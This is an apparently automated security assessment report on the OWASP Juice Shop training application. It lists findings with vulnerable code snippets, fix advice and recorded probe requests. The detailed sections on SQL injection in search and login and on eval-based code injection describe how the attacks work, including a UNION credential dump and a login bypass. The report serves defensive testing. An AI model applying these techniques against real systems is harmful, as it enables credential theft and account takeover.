**Findings index:**<br/>🔴 [F-004](#f-004) — SQL injection in product search<br/>🔴 [F-010](#f-010) — Insecure Direct Object Reference<br/>🔴 [F-011](#f-011) — SQL injection in login credential query<br/>🔴 [F-012](#f-012) — Code injection<br/>🟠 [F-001](#f-001) — Angular sanitizer bypass causes XSS in about, search, administration<br/>🟠 [F-002](#f-002) — Systemic missing object ownership checks across address, basket, coupon<br/>🟠 [F-003](#f-003) — JWT Stored in Script-Readable Storage<br/>🟠 [F-015](#f-015) — Password change allowed without current password<br/>🟠 [F-016](#f-016) — OAuth implicit flow without state, nonce or audience<br/>🟠 [F-017](#f-017) — Predictable password derived from OAuth email<br/>🟠 [F-018](#f-018) — Non-cryptographic RNG for a secret/token<br/>🟠 [F-019](#f-019) — JWT decode used without signature verification<br/>🟠 [F-020](#f-020) — Insecure JWT Verification<br/>🟠 [F-021](#f-021) — Password reset accepts a security-question answer<br/>🟠 [F-022](#f-022) — Password reset relies on guessable security<br/>🟠 [F-023](#f-023) — Arbitrary server file read<br/>🟠 [F-024](#f-024) — Zip entry path traversal on complaint upload<br/>🟠 [F-025](#f-025) — Request body orderLinesData evaluated by notevil in vm<br/>🟠 [F-026](#f-026) — Unauthenticated modification of products<br/>🟠 [F-027](#f-027) — Wallet credited with unverified body amount<br/>🟠 [F-028](#f-028) — Expired coupon campaigns accepted from client-supplied<br/>🟠 [F-029](#f-029) — XML parser resolves external entities and DTDs<br/>🟠 [F-030](#f-030) — Basket item update lacks ownership check and field<br/>🟠 [F-033](#f-033) — NoSQL injection in product reviews \$where<br/>🟠 [F-034](#f-034) — NoSQL injection in order tracking \$where predicate<br/>🟠 [F-035](#f-035) — NoSQL operator injection and missing<br/>🟠 [F-036](#f-036) — Wallet top-up accepts unvalidated attacker-chosen balance<br/>🟠 [F-037](#f-037) — User-controlled username compiled as Pug template<br/>🟠 [F-038](#f-038) — Chatbot accepts client-supplied message roles and history<br/>🟠 [F-039](#f-039) — Unauthenticated key and log file exposure<br/>🟠 [F-040](#f-040) — XML external entity expansion in upload parser<br/>🟠 [F-041](#f-041) — XML parser resolves external entities in uploads<br/>🟠 [F-042](#f-042) — Any authenticated user can read other users' records and all complaints<br/>🟠 [F-043](#f-043) — Password verification relies on unsalted MD5<br/>🟠 [F-044](#f-044) — Server-side request forgery in profile<br/>🟠 [F-045](#f-045) — Passwords hashed with unsalted MD5 in User model setter<br/>🟠 [F-046](#f-046) — Password reset response returns full user record<br/>🟠 [F-047](#f-047) — Unsalted MD5 password hashing and no strength policy<br/>🟠 [F-048](#f-048) — Hardcoded JWT signing key and HMAC secrets<br/>🟠 [F-049](#f-049) — Chat endpoint has no request or consumption limits<br/>🟠 [F-050](#f-050) — Basket item add checks different BasketId than it<br/>🟠 [F-051](#f-051) — Review author taken from request body<br/>🟠 [F-052](#f-052) — Review update lacks ownership check<br/>🟠 [F-053](#f-053) — Recycle records readable by any caller by ID<br/>🟠 [F-057](#f-057) — Deluxe upgrade skips payment verification<br/>🟠 [F-058](#f-058) — Encryption keys and logs served without authorization<br/>🟠 [F-059](#f-059) — Sensitive Routes Registered Without Authentication Middleware<br/>🟠 [F-060](#f-060) — Any authenticated user can list all user accounts<br/>🟠 [F-061](#f-061) — Any authenticated user can create products with chosen prices<br/>🟠 [F-063](#f-063) — Unauthenticated product update<br/>🟠 [F-064](#f-064) — Duplicate JSON key bypasses basket ownership check<br/>🟠 [F-065](#f-065) — Chatbot coupon tool lacks server-side authorization<br/>🟠 [F-066](#f-066) — Registration accepts privileged role from request body<br/>🟠 [F-067](#f-067) — Mass assignment of role on user registration<br/>🟠 [F-068](#f-068) — User registration accepts a client-chosen role<br/>🟠 [F-069](#f-069) — User list readable by any authenticated user<br/>🟡 [F-070](#f-070) — Product review author taken from request<br/>🟡 [F-071](#f-071) — Chatbot trusts unverified JWT payload for identity<br/>🟡 [F-072](#f-072) — Client-supplied UserId accepted when posting feedback<br/>🟡 [F-073](#f-073) — Image CAPTCHA answer leaked and check skippable<br/>🟡 [F-074](#f-074) — Wallet ownership claimed without signature proof<br/>🟡 [F-075](#f-075) — OAuth implicit flow without state parameter<br/>🟡 [F-076](#f-076) — Unauthenticated WebSocket Channel<br/>🟡 [F-077](#f-077) — No brute-force protection on login handler<br/>🟡 [F-078](#f-078) — JWT verification does not pin an algorithm<br/>🟡 [F-079](#f-079) — Redirect allowlist bypass<br/>🟡 [F-080](#f-080) — Cookie-authenticated profile update lacks<br/>🟡 [F-081](#f-081) — Fetched profile image stored without size<br/>🟡 [F-082](#f-082) — Memory image upload without size limit or content check<br/>🟡 [F-083](#f-083) — Deluxe membership upgrade without payment<br/>🟡 [F-084](#f-084) — Owner UserId taken from request body on create routes<br/>🟡 [F-085](#f-085) — Security answer creation accepts owner from request body<br/>🟡 [F-086](#f-086) — Stored reviews and username reach chatbot context as instructions<br/>🟡 [F-087](#f-087) — Model setters skip HTML sanitization on challenge branch<br/>🟡 [F-088](#f-088) — Missing Container Image Signing<br/>🟡 [F-089](#f-089) — Untrusted npm Install/Postinstall Scripts Enabled<br/>🟡 [F-090](#f-090) — Mutable third-party GitHub Action references<br/>🟡 [F-091](#f-091) — Release packaging installs dependencies without lockfile<br/>🟡 [F-092](#f-092) — Container base images referenced by tag not digest<br/>🟡 [F-093](#f-093) — User emails rendered as trusted HTML in admin<br/>🟡 [F-094](#f-094) — DOM XSS<br/>🟡 [F-095](#f-095) — Stored XSS risk from trusted product<br/>🟡 [F-096](#f-096) — Null byte bypasses FTP file type allow-list<br/>🟡 [F-097](#f-097) — Arbitrary file read<br/>🟡 [F-098](#f-098) — Null byte bypass of file type allowlist<br/>🟡 [F-099](#f-099) — Unauthenticated memories list returns user records<br/>🟡 [F-100](#f-100) — Unauthenticated application configuration endpoint<br/>🟡 [F-101](#f-101) — Security question endpoint reveals<br/>🟡 [F-102](#f-102) — Account enumeration<br/>🟡 [F-103](#f-103) — Unauthenticated Prometheus metrics endpoint<br/>🟡 [F-104](#f-104) — Whoami exposes session data<br/>🟡 [F-105](#f-105) — Log files served to any caller<br/>🟡 [F-106](#f-106) — Encryption keys folder listed and served publicly<br/>🟡 [F-107](#f-107) — Data export finds orders by non-unique masked e-mail<br/>🟡 [F-108](#f-108) — Order history matches orders by masked email<br/>🟡 [F-109](#f-109) — Order tracking returns any order by identifier<br/>🟡 [F-110](#f-110) — Captcha answer returned to client and reusable<br/>🟡 [F-111](#f-111) — Card numbers and TOTP secrets stored unencrypted<br/>🟡 [F-112](#f-112) — OAuth access token passed in URL fragment and query string<br/>🟡 [F-113](#f-113) — Challenge flags replayed to every connecting<br/>🟡 [F-114](#f-114) — User listing exposes sensitive fields to any<br/>🟡 [F-115](#f-115) — Event loop blocked by busy-wait sleep<br/>🟡 [F-116](#f-116) — Unvalidated event payload types throw<br/>🟡 [F-117](#f-117) — Chatbot coupon tool accepts unbounded discount<br/>🟡 [F-118](#f-118) — Any logged-in user can delete any feedback<br/>🟡 [F-119](#f-119) — Basket items readable and deletable across users<br/>🟡 [F-120](#f-120) — Container Runs as Root<br/>🟡 [F-121](#f-121) — Workflows without explicit least-privilege permissions<br/>🟡 [F-122](#f-122) — Missing Workflow Permissions Block<br/>🟡 [F-123](#f-123) — Open redirect

<a id="th-01"></a><a id="th-05"></a><a id="th-06"></a><a id="th-02"></a><a id="th-03"></a><a id="th-04"></a><a id="th-07"></a><a id="th-08"></a><a id="th-09"></a><a id="th-10"></a><a id="th-11"></a><a id="th-12"></a><a id="th-14"></a><a id="th-17"></a><a id="th-15"></a><a id="th-18"></a>

### 🔴 Critical (4)

<a id="t-004"></a><a id="f-004"></a>
#### F-004 · SQL injection in product search

**Severity:** 🔴 Critical  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `routes/search.ts:23`

**Found by:** survey, scanners and verification ([TC-INPUT-01](#tc-input-01))

**Reliability:** High. Probably real: a model review confirmed it, and the survey and verification each found it.

**Weakness:** [W-002](#w-002) - Database access relies on concatenated queries

**Issue:** An unauthenticated attacker sends GET `/rest/products/search?q=` with a quote-breaking UNION payload. The q value is concatenated into the raw SQL LIKE clause, so the attacker can append `UNION SELECT of id, email and password from Users` with matching column count and read credential rows and schema from the JSON product list, then crack or replay the hashes.

The only control is a 200 character truncation; no escaping or binding.

**Evidence:** ✓ verified

```typescript
  20 │   return (req: Request, res: Response, next: NextFunction) => {
  21 │     let criteria: any = req.query.q === 'undefined' ? '' : req.query.q ?? ''
  22 │     criteria = (criteria.length <= 200) ? criteria : criteria.substring(0, 200)
→ 23 │     models.sequelize.query(`SELECT * FROM Products WHERE ((name LIKE '%${criteria}%' OR description LIKE '%${criteria}%') AND deletedAt IS NULL) ORDER BY name`) // vuln-code-snippet vuln-line unionSqlInjectionChallenge dbSchemaChallenge
  24 │       .then(([products]: any) => {
  25 │         const dataString = JSON.stringify(products)
  26 │         if (challengeUtils.notSolved(challenges.unionSqlInjectionChallenge)) { // vuln-code-snippet hide-start
```

**Fix:** Switch all SQL execution to parameterised queries or ORM-bound parameters → ● [M-031](#m-031) — Use bound parameters in product search query

**Classification:** Injection · STRIDE: Tampering · [CWE-89](https://cwe.mitre.org/data/definitions/89.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/) · Verification items: [TC-INPUT-01](#tc-input-01) · Rules: INJ-001 · walkthrough [Walkthrough §3.1](#31-sql-injection-in-product-search)

##### Dynamic verification

**Verdict:** confirmed · tested 2026-11-12 12:41 UTC by AppSec Verifier 0.1.0a1 (41af96b1, 2026-11-12)

**Rating after verification:** unchanged (confirmed; the likelihood was already High or above).

Not every declared variant has a checked result; the verdict covers the tested variants only.

**Variant variant-001:** confirmed (medium)

> The error-probe control confirmed SQL injection in the q parameter of GET /rest/products/search. An unbalanced single quote (apple') consistently triggered a backend engine error (status 500) while its balanced counterpart (apple'') returned 200 across two repetitions. Double-quote and backtick variants (not the string-delimiting character used by the backend) showed no difference, isolating the single quote as the syntactically significant character, consistent with q being concatenated unescaped into a single-quoted SQL LIKE clause as described in routes/search.ts:23. This split into two stable response classes (error vs success) based solely on quote balance, which is proof of unescaped SQL string interpolation (CWE-89), matching the finding's mechanism trace.

Application screenshot unavailable: no application page showing the confirmed effect was captured; for API-only findings the recorded HTTP exchanges are the primary evidence.

###### Proof of concept

| Step | Request | Identity | Answer |
| --- | --- | --- | --- |
| **2** | `GET /rest/products/search?q=apple%27` | anonymous | 500, 994 bytes |
| **3** | `GET /rest/products/search?q=apple%27%27` | anonymous | 200, 30 bytes |
| **4** | `GET /rest/products/search?q=apple%22` | anonymous | 200, 30 bytes |
| **5** | `GET /rest/products/search?q=apple%22%22` | anonymous | 200, 30 bytes |
| **6** | `GET /rest/products/search?q=apple%60` | anonymous | 200, 30 bytes |
| **7** | `GET /rest/products/search?q=apple%60%60` | anonymous | 200, 30 bytes |
| **8** | `GET /rest/products/search?q=apple%27` | anonymous | 500, 994 bytes |
| **9** | `GET /rest/products/search?q=apple%27%27` | anonymous | 200, 30 bytes |
| **10** | `GET /rest/products/search?q=apple%22` | anonymous | 200, 30 bytes |
| **11** | `GET /rest/products/search?q=apple%22%22` | anonymous | 200, 30 bytes |
| **12** | `GET /rest/products/search?q=apple%60` | anonymous | 200, 30 bytes |
| **13** | `GET /rest/products/search?q=apple%60%60` | anonymous | 200, 30 bytes |

⟦…⟧ marks what the proof rests on. All requests and responses: `evidence/T-004-930a49d43872218b-poc.har`.

**Control · step 3** (balanced "'") · `GET /rest/products/search?q=apple%27%27` as anonymous → 200, 30 bytes

```text
input, decoded: apple''
engine error: no
```

```http
GET /rest/products/search?q=⟦apple%27%27⟧ HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[]}
```

**Control · step 5** (balanced '"') · `GET /rest/products/search?q=apple%22%22` as anonymous → 200, 30 bytes

```text
input, decoded: apple""
engine error: no
```

```http
GET /rest/products/search?q=⟦apple%22%22⟧ HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[]}
```

**Control · step 7** (balanced '`') · `GET /rest/products/search?q=apple%60%60` as anonymous → 200, 30 bytes

```text
input, decoded: apple``
engine error: no
```

```http
GET /rest/products/search?q=⟦apple%60%60⟧ HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[]}
```

**Control · step 9** (balanced "'") · `GET /rest/products/search?q=apple%27%27` as anonymous → 200, 30 bytes

```text
input, decoded: apple''
engine error: no
```

```http
GET /rest/products/search?q=⟦apple%27%27⟧ HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[]}
```

**Control · step 11** (balanced '"') · `GET /rest/products/search?q=apple%22%22` as anonymous → 200, 30 bytes

```text
input, decoded: apple""
engine error: no
```

```http
GET /rest/products/search?q=⟦apple%22%22⟧ HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[]}
```

**Control · step 13** (balanced '`') · `GET /rest/products/search?q=apple%60%60` as anonymous → 200, 30 bytes

```text
input, decoded: apple``
engine error: no
```

```http
GET /rest/products/search?q=⟦apple%60%60⟧ HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[]}
```

**Attack · step 2** (syntax break "'") · `GET /rest/products/search?q=apple%27` as anonymous → 500, 994 bytes

```text
input, decoded: apple'
engine error: yes
```

```http
GET /rest/products/search?q=⟦apple%27⟧ HTTP/1.1

HTTP/1.1 500 Internal Server Error
content-type: text/html; charset=utf-8

Visible text: Error: ⟦SQLITE_ERROR: near "'%'": syntax error⟧ OWASP Juice Shop (Express ^4.22.1) 500 Error: SQLITE_ERROR: near "'%'": syntax error
```

**Attack · step 4** (syntax break '"') · `GET /rest/products/search?q=apple%22` as anonymous → 200, 30 bytes

```text
input, decoded: apple"
engine error: no
```

```http
GET /rest/products/search?q=⟦apple%22⟧ HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[]}
```

**Attack · step 6** (syntax break '`') · `GET /rest/products/search?q=apple%60` as anonymous → 200, 30 bytes

```text
input, decoded: apple`
engine error: no
```

```http
GET /rest/products/search?q=⟦apple%60⟧ HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[]}
```

**Attack · step 8** (syntax break "'") · `GET /rest/products/search?q=apple%27` as anonymous → 500, 994 bytes

```text
input, decoded: apple'
engine error: yes
```

```http
GET /rest/products/search?q=⟦apple%27⟧ HTTP/1.1

HTTP/1.1 500 Internal Server Error
content-type: text/html; charset=utf-8

Visible text: Error: ⟦SQLITE_ERROR: near "'%'": syntax error⟧ OWASP Juice Shop (Express ^4.22.1) 500 Error: SQLITE_ERROR: near "'%'": syntax error
```

**Attack · step 10** (syntax break '"') · `GET /rest/products/search?q=apple%22` as anonymous → 200, 30 bytes

```text
input, decoded: apple"
engine error: no
```

```http
GET /rest/products/search?q=⟦apple%22⟧ HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[]}
```

**Attack · step 12** (syntax break '`') · `GET /rest/products/search?q=apple%60` as anonymous → 200, 30 bytes

```text
input, decoded: apple`
engine error: no
```

```http
GET /rest/products/search?q=⟦apple%60⟧ HTTP/1.1

HTTP/1.1 200 OK
content-type: application/json; charset=utf-8

{"status":"success","data":[]}
```

###### Technical QA

not-reviewed. 0 technical reviews and 0 correction rounds for this variant; the finding shares at most two rounds. QA does not assign the technical verdict.

```text
A confirmed verdict whose proof check passed is not reviewed (VER-046).
```

###### Evidence review

Clear after 0 of 2 correction rounds and 1 reviews. The review judges how the evidence is presented, not the verdict. No screenshot was shown to a model.

```text
Evidence text and layout checks passed; no screenshot shown to the model (no application screenshot to show).
```

**Variant variant-002:** not attempted

> not tested: another variant of this finding already confirmed it

<a id="t-010"></a><a id="f-010"></a>
#### F-010 · Insecure Direct Object Reference

**Severity:** 🔴 Critical  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** Multiple locations (2)

**Contradicted by verification:** a control was evidenced at [TC-AUTHZ-01](#tc-authz-01) at `routes/payment.ts:41`; [TC-AUTHZ-01](#tc-authz-01) at `routes/payment.ts:70`. Check this finding before acting on it.

**Reliability:** Low. This may be a false positive: a review or check contradicts it.

**Weakness:** [W-007](#w-007) - Authorization is implemented route by route

**Instances (2):** `routes/payment.ts`: 41, 70

**Issue:** A signed-in attacker puts another user's ID into the owner field of the request (`req.body.UserId` and the like); the query trusts it instead of the session identity, so the attacker reads or changes every other user's records - horizontal privilege escalation across all accounts.

**Evidence:** ◌ ambiguous

```typescript
routes/payment.ts
  38 │
  39 │ export function getPaymentMethodById () {
  40 │   return async (req: Request, res: Response, next: NextFunction) => {
→ 41 │     const card = await CardModel.findOne({ where: { id: req.params.id, UserId: req.body.UserId } })
  42 │     const displayableCard: displayCard = {
  43 │       UserId: 0,
  44 │       id: 0,
```

**Fix:** Tie every object lookup to the requesting user's identity and reject cross-tenant references → ◑ [M-001](#m-001) — Manual review: verify Insecure Direct Object Reference (Card) · ● [M-032](#m-032) — Enforce object-level (ownership) authorization (🔴 [F-010](#f-010))

**Classification:** Broken Access Control · STRIDE: Tampering · [CWE-639](https://cwe.mitre.org/data/definitions/639.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/) · Verification items: [TC-AUTHZ-01](#tc-authz-01) · Rules: AUTHZ-001 · walkthrough [Walkthrough §3.3](#33-insecure-direct-object-reference-card-in-payment)

<a id="t-012"></a><a id="f-012"></a>
#### F-012 · Code injection

**Severity:** 🔴 Critical  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `routes/userProfile.ts:61`

**Found by:** survey, scanners and verification ([TC-INPUT-03](#tc-input-03))

**Reliability:** High. Probably real: a model review confirmed it, and the survey and verification each found it.

**Weakness:** [W-001](#w-001) - Application data crosses into executable code

**Issue:** An authenticated user sets a username of the form #{code} through POST `/profile`, then loads GET `/profile`. The server evals the code, giving JavaScript execution in the Node process, so the attacker can read files or run commands as the server process.

A persisted record read reaches the executable expression; the path is guarded by a username match on #{...} and by whether the `usernameXssChallenge` is enabled, so active configuration needs verification. Controls: a session cookie login check only; no sandbox or allowlist around the evaluated code.

**Evidence:** ✓ verified

```typescript
  58 │         if (!code) {
  59 │           throw new Error('Username is null')
  60 │         }
→ 61 │         username = eval(code) // eslint-disable-line no-eval
  62 │       } catch (err) {
  63 │         username = '\\' + username
  64 │       }
```

**Fix:** Replace runtime code generation (eval/Function/template render) with a data-only execution path → ● [M-034](#m-034) — Remove eval of profile username

**Classification:** Code Execution via Unsafe Deserialization or Eval · STRIDE: Elevation of Privilege · [CWE-95](https://cwe.mitre.org/data/definitions/95.html) · [OWASP A08:2025](https://owasp.org/Top10/2025/A08_2025-Software_or_Data_Integrity_Failures/) · Verification items: [TC-INPUT-03](#tc-input-03) · Rules: INJ-NODE-007 · walkthrough [Walkthrough §3.4](#34-code-injection-in-user-profile)

##### Dynamic verification

**Verdict:** inconclusive · tested 2026-11-12 12:41 UTC by AppSec Verifier 0.1.0a1 (41af96b1, 2026-11-12)

**Rating after verification:** unchanged (the verdict not-attempted does not change the rating).

Not every declared variant has a checked result; the verdict covers the tested variants only.

**Variant variant-001:** not attempted

> not tested: safe mode; every declared variant needs a state change

<a id="t-011"></a><a id="f-011"></a>
#### F-011 · SQL injection in login credential query

**Severity:** 🔴 Critical  ·  **Component:** [C-09](#c-09) - Authentication & Session Surface  ·  **Location:** `routes/login.ts:34`

**Found by:** survey, scanners and verification ([TC-INPUT-01](#tc-input-01))

**Reliability:** High. Probably real: a model review confirmed it, and the survey and verification each found it.

**Weakness:** [W-002](#w-002) - Database access relies on concatenated queries

**Trust boundary gap:** [tb-1](#tb-1) 🌐 External - external → Authentication &amp; Session Surface · Validation: The finding's evidence line is the interface this boundary cites; CWE-89 breaks its validation condition.

**Issue:** An unauthenticated attacker posts a crafted email value to `/rest/user/login`. The email is interpolated into the SQL query without escaping (only the password is `MD5`-hashed first), so the value can close the quoted string and comment out the password condition.

The query returns the targeted user row, such as admin, and the handler issues a signed JWT (or the 2FA temp token path, since TOTP gating depends on the injected row). The attacker can then act as that user, read or modify data, or extract data through the injection.

**Evidence:** ✓ verified

```typescript
  31 │
  32 │   return (req: Request, res: Response, next: NextFunction) => {
  33 │     verifyPreLoginChallenges(req) // vuln-code-snippet hide-line
→ 34 │     models.sequelize.query(`SELECT * FROM Users WHERE email = '${req.body.email || ''}' AND password = '${security.hash(req.body.password || '')}' AND deletedAt IS NULL`, { model: UserModel, plain: true }) // vuln-code-snippet vuln-line loginAdminChallenge loginBenderChallenge loginJimChallenge
  35 │       .then((authenticatedUser) => { // vuln-code-snippet neutral-line loginAdminChallenge loginBenderChallenge loginJimChallenge
  36 │         const user = utils.queryResultToJson(authenticatedUser)
  37 │         if (user.data?.id && user.data.totpSecret !== '') {
```

**Fix:** Switch all SQL execution to parameterised queries or ORM-bound parameters → ● [M-033](#m-033) — Use parameterized queries for login lookup

**Classification:** Injection · STRIDE: Tampering · [CWE-89](https://cwe.mitre.org/data/definitions/89.html) · [OWASP A05:2025](https://owasp.org/Top10/2025/A05_2025-Injection/) · Verification items: [TC-INPUT-01](#tc-input-01) · Rules: INJ-001 · walkthrough [Walkthrough §3.2](#32-sql-injection-in-login-credential-query)

##### Dynamic verification

**Verdict:** inconclusive · tested 2026-11-12 12:41 UTC by AppSec Verifier 0.1.0a1 (41af96b1, 2026-11-12)

**Rating after verification:** unchanged (the verdict inconclusive does not change the rating).

Not every declared variant has a checked result; the verdict covers the tested variants only.

**Variant variant-001:** not attempted

> not tested: safe mode; every request the finding names writes, and the proof sends each control twice

**Variant variant-002:** not attempted

> not tested: safe mode; every request the finding names writes, and the proof sends each control twice

### 🟠 High (52)

<a id="t-048"></a><a id="f-048"></a>
#### F-048 · Hardcoded JWT signing key and HMAC secrets

**Severity:** 🟠 High - secret committed to the public source repo - extractable on clone, no prior access needed; elevated to Critical as a verified attack-chain keystone in AC-T-005 (Authentication Bypass via Exposed Secret Material); see [§9](#9-abuse-cases)  ·  **Component:** [C-09](#c-09) - Authentication & Session Surface  ·  **Location:** `lib/insecurity.ts:21`

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-046](#w-046) - Secrets are committed to source instead of a managed store

**Issue:** The `RS256` private key used to sign session tokens, plus HMAC keys for security answers, are embedded in source. Anyone with repository access can forge valid JWTs for any user or role, including admin.

**Evidence:** ✓ verified

```typescript
  19 │
  20 │ export const publicKey = fs ? fs.readFileSync('encryptionkeys/jwt.pub', 'utf8') : 'placeholder-public-key'
→ 21 │ const privateKey = '[PEM PRIVATE KEY — REDACTED] …
  22 │
  23 │ interface ResponseWithUser {
```

**Fix:** Move the credential out of source control into a secret store and rotate it → ● [M-065](#m-065) — Move secrets to a managed secret store

**Classification:** Cryptographic Failures · STRIDE: Information Disclosure · [CWE-798](https://cwe.mitre.org/data/definitions/798.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/) · walkthrough [Walkthrough §3.7](#37-hardcoded-jwt-signing-key-and-hmac-secrets)

<a id="t-002"></a><a id="f-002"></a>
#### F-002 · Systemic missing object ownership checks across address, basket, coupon

**Severity:** 🟠 High - verified attack-chain keystone in AC-B-001 (User reads or changes data of another user or tenant); see [§9](#9-abuse-cases)  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** Multiple locations (8)

**Found by:** survey, scanners and verification ([TC-AUTHZ-01](#tc-authz-01))

**Reliability:** High. Probably real: a model review confirmed it, and the survey and verification each found it.

**Weakness:** [W-007](#w-007) - Authorization is implemented route by route

**Instances (8):** `server.ts`: 450, 426, 603, 604, 605; `routes/basket.ts`: 19; `routes/coupon.ts`: 18; `routes/order.ts`: 35

**Issue:** Any logged-in user can act on other users' objects because ids are not tied to the caller. `server.ts:450`: PUT `/api/Addresss/:id` runs only `appendUserId` and the generated update handler modifies the address by id. The finding holds further places beyond those cited (`location_count` is 8).

**Evidence:** ✓ verified

```typescript
routes/basket.ts
  17 │     try {
  18 │       const id = req.params.id
→ 19 │       const basket = await BasketModel.findOne({ where: { id }, include: [{ model: ProductModel, paranoid: false, as: 'Products' }] })
  20 │       /* jshint eqeqeq:false */
  21 │       challengeUtils.solveIf(challenges.basketAccessChallenge, () => {
```

**Fix:** Tie every object lookup to the requesting user's identity and reject cross-tenant references → ◕ [M-029](#m-029) — Enforce basket ownership on lookup

**Classification:** Broken Access Control · STRIDE: Elevation of Privilege · [CWE-639](https://cwe.mitre.org/data/definitions/639.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/) · Verification items: [TC-AUTHZ-01](#tc-authz-01) · Rules: AUTHZ-301

##### Dynamic verification

**Verdict:** inconclusive · tested 2026-11-12 12:41 UTC by AppSec Verifier 0.1.0a1 (41af96b1, 2026-11-12)

**Rating after verification:** unchanged (the verdict inconclusive does not change the rating).

Not every declared variant has a checked result; the verdict covers the tested variants only.

**Variant variant-001:** not attempted

> not tested: safe mode; without a declared test resource the Verifier creates one, which writes

**Variant variant-002:** not attempted

> not tested: safe mode; without a declared test resource the Verifier creates one, which writes

**Variant variant-003:** not attempted

> not tested: safe mode; without a declared test resource the Verifier creates one, which writes

<a id="t-003"></a><a id="f-003"></a>
#### F-003 · JWT Stored in Script-Readable Storage

**Severity:** 🟠 High  ·  **Component:** [C-05](#c-05) - Angular Frontend  ·  **Location:** Multiple locations (5)

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-009](#w-009) - Browser scripts retain reusable session credentials

**Instances (5):** `frontend/src/app/Services/request.interceptor.ts`: 16; `frontend/src/app/login/login.component.ts`: 101; `frontend/src/app/payment/payment.component.ts`: 232; `frontend/src/app/two-factor-auth-enter/two-factor-auth-enter.component.ts`: 53; `frontend/src/app/Services/basket.service.ts`: 64

**Issue:** The request interceptor reads the bearer token from `localStorage` for every API call, so the token is readable by any script on the origin. An attacker who gets script execution (for example via the feedback XSS) can exfiltrate the token and impersonate the user.

**Evidence:** ✓ verified - Interceptor builds the `Authorization` header from `localStorage.getItem('token')`; the token is therefore script-readable storage.

**Fix:** ◕ [M-030](#m-030) — Store session tokens in HttpOnly, Secure cookies

**Classification:** Insecure Client-Side Storage · STRIDE: Information Disclosure · [CWE-922](https://cwe.mitre.org/data/definitions/922.html) · [OWASP A04:2025](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/)

<a id="t-015"></a><a id="f-015"></a>
#### F-015 · Password change allowed without current password

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Juice Shop Express Server  ·  **Location:** `routes/changePassword.ts:39`

**Found by:** survey and verification ([TC-AUTHN-05](#tc-authn-05))

**Reliability:** High. Probably real: a model review confirmed it, and the survey and verification each found it.

**Issue:** The change-password handler (`routes/changePassword.ts:39`) verifies the current password only when the parameter is supplied. An attacker holding a stolen or hijacked bearer token, or luring the victim to a crafted GET URL, omits the current parameter and sets a new password, taking over the account.

Passwords travel in the query string of a GET request and appear in access logs.

**Evidence:** ✓ verified

```typescript
  37 │     }
  38 │
→ 39 │     if (currentPassword && security.hash(currentPassword) !== loggedInUser.data.password) {
  40 │       res.status(401).send(res.__('Current password is not correct.'))
  41 │       return
```

**Fix:** ◕ [M-035](#m-035) — Require current password

**Classification:** Broken Authentication · STRIDE: Spoofing · [CWE-620](https://cwe.mitre.org/data/definitions/620.html) · [OWASP A07:2025](https://owasp.org/Top10/2025/A07_2025-Authentication_Failures/) · Verification items: [TC-AUTHN-05](#tc-authn-05)

##### Dynamic verification

**Verdict:** inconclusive · tested 2026-11-12 12:41 UTC by AppSec Verifier 0.1.0a1 (41af96b1, 2026-11-12)

**Rating after verification:** unchanged (the verdict not-attempted does not change the rating).

Not every declared variant has a checked result; the verdict covers the tested variants only.

**Variant variant-001:** not attempted

> no supported proof method for CWE-620

<a id="t-016"></a><a id="f-016"></a>
#### F-016 · OAuth implicit flow without state, nonce or audience

**Severity:** 🟠 High  ·  **Component:** [C-05](#c-05) - Angular Frontend  ·  **Location:** `frontend/src/app/login/login.component.ts:148`

**Found by:** verification ([TC-AUTHN-06](#tc-authn-06))

**Reliability:** Medium. A model review confirmed it, but the survey and verification did not both find it.

**Weakness:** [W-003](#w-003) - Authentication relies on hand-rolled token verification

**Issue:** The Google sign-in requests `response_type=token` with no state, nonce or PKCE. The callback accepts any #`access_token` fragment, and the userinfo response is used to sign the user in without checking the token was issued for this client.

An attacker can send a victim a crafted callback URL, or present a token minted for another client, to sign in as an account of the attacker's choice.

**Evidence:** ✓ verified

```typescript
  146 │
  147 │   googleLogin () {
→ 148 │     this.windowRefService.nativeWindow.location.replace(`${oauthProviderUrl}?client_id=${this.clientId}&response_type=token&scope=email&redirect_uri=${this.redirectUri}`)
  149 │   }
  150 │ }
```

**Fix:** ◕ [M-036](#m-036) — Verify token signatures before trusting claims

**Classification:** Supply-Chain Integrity · STRIDE: Spoofing · [CWE-345](https://cwe.mitre.org/data/definitions/345.html) · [OWASP A03:2025](https://owasp.org/Top10/2025/A03_2025-Software_Supply_Chain_Failures/) · Verification items: [TC-AUTHN-06](#tc-authn-06)

<a id="t-017"></a><a id="f-017"></a>
#### F-017 · Predictable password derived from OAuth email

**Severity:** 🟠 High  ·  **Component:** [C-05](#c-05) - Angular Frontend  ·  **Location:** `frontend/src/app/oauth/oauth.component.ts:30`

**Found by:** survey and verification ([TC-AUTHN-07](#tc-authn-07))

**Reliability:** High. Probably real: a model review confirmed it, and the survey and verification each found it.

